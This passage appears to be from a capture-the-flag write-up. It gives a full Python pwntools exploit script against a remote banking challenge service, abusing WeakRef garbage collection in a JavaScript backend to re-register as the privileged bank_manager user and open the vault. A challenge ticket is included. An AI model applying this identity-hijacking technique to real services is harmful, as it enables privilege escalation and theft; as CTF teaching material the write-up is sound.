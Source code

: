 ### Exploit Script (Python)

The exploit leverages the `pwntools` library to automate interactions with the remote CLI banking service. Here's the full annotated script:

```python
from pwn import remote
import re
import time

# Utility to clean output from the terminal (removes ANSI codes and special characters)
def clean_terminal_output(raw_text):
    if isinstance(raw_text, bytes):
        raw_text = raw_text.decode(errors='replace')
    no_ansi = re.sub(r'\x1b\[[0-9;]*[A-Za-z]', '', raw_text)
    no_box = re.sub(r'[\u2500-\u257F\u2580-\u259F\u25A0-\u25FF]', '', no_ansi)
    only_ascii = re.sub(r'[^\x20-\x7E\n]', '', no_box)
    lines = only_ascii.splitlines()
    clean_lines = [line.strip() for line in lines if re.search(r'[A-Za-z0-9]', line)]
    return '\n'.join(clean_lines)

# Key parameters
flag_user = b"bank_manager"
alive_time = 20
rand_user = b"random"
ticket = b"ticket{CalvinCute4220n25:ovRjsAOxoDzzOC6Uvns45006cROCYV9dKf9Xpd_UKin7hs8U}"

# Main loop: wait for garbage collection
while True:
    r = remote("memorybank-tlc4zml47uyjm.shellweplayaga.me", 9005)
    ticket_req = r.recv().decode()
    print(ticket_req)
    r.sendline(ticket)

    # Spam temporary users to fill memory and reduce reference lifespan of bank_manager
    start = time.time()
    while time.time() - start < alive_time - 1:
        r.recvuntil(b"quit):")
        r.sendline(rand_user)         # Register random user
        r.recvuntil(b"(1-5):")
        r.sendline(b"4")              # Deposit (or any interaction to keep loop active)

    r.recvuntil(b"quit):")
    r.sendline(flag_user)            # Try registering as bank_manager again

    try:
        resp = r.recvuntil(b"(1-6):")
        if b"Welcome, bank_manager" in resp:
            print("Flag user found")  # Successfully re-registered as privileged user
            break
    except Exception as e:
        r.close()
        continue
    r.close()

# If successful, option 6 (Vault) is now available
print(clean_terminal_output(resp))
r.sendline(b"6")  # Trigger vault
resp = r.recvall()
print(clean_terminal_output(resp))
```

This abuse of `WeakRef` in a JS-based backend highlights how memory management and user identity can dangerously intersect when not handled properly.